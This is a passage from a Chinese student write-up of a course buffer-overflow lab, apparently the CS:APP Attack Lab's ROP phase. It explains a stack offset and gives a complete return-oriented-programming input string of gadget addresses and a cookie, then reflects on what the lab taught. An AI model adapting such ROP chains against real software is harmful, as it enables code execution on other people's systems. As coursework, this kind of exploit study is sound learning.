为节省空间，每一行代码都省略了后面的`ret`，



逻辑在图上标的很清楚，这里就不再用文字写啦！

**要注意**，`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以`cookie`相对于此时栈顶指针的偏移量是`0x48`而不是`0x50`

### Solution

根据上图的栈帧，写出输入序列：

```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```



**Pass! 攻击成功！**

# 总结

- 本实验涉及的内容在课本中只有短短几页的篇幅，而实际操作中却要考虑如此多的东西，确实是那句话“纸上得来终觉浅，绝知此事要躬行”。五个`Phase`的难度是层层递进的，`Part 1`让我对部分汇编指令以及栈的原理有了更深的领悟；`Part 2`可能就更加贴合实际工程项目了，我在这里初步学习了“ROP”这一天才的攻击技术，实现成功的攻击需要对每一个字节都能有足够的敏感。同时，在我以后编写的代码中，也应该注意到缓冲区溢出的问题
- 本实验耗时2天，约9小时


